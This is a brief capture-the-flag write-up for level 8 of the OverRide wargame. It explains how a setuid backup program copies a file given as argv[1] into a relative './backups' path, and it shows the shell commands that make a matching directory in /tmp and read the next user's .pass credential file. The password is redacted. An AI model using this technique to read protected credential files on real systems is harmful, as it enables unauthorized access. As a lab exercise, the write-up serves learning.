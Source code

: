 # Level 08

This one is more of a snow-crash type exploit as we don't actually override anything.
One thing we can note in the sourcefile is that our argv[1] gets used twice. Once as an absolute path, and one copied right after `./backups`.

What I did was the following:
```shell
cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
[redacted]
```